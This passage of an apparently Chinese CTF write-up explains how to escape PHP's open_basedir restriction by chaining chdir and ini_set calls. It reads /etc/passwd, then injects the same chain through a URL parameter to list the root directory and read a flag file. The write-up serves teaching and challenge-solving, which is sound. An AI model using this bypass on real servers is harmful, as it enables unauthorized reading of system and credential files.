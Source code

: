 ```php
<?php
mkdir('Von');  //创建一个目录Von
chdir('Von');  //切换到Von目录下
ini_set('open_basedir','..');  //把open_basedir切换到上层目录
chdir('..');  //以下这三步是把目录切换到根目录
chdir('..');
chdir('..');
ini_set('open_basedir','/');  //设置open_basedir为根目录(此时相当于没有设置open_basedir)
echo file_get_contents('/etc/passwd');  //读取/etc/passwd
```

![image-20230516140823090](https://s2.loli.net/2023/05/16/i5pOCdFEmaIberf.png)

因此，我们可以使用没有禁用的函数，print_r、file_get_contents

![image-20230516140943513](https://s2.loli.net/2023/05/16/pFaKR79hYIcbk5Z.png)



```php
?1=chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('/'));
```

找到根目录下：`THis_Is_tHe_F14g` 文件

读取：

```php
?1=chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(file_get_contents('/THis_Is_tHe_F14g'));
```













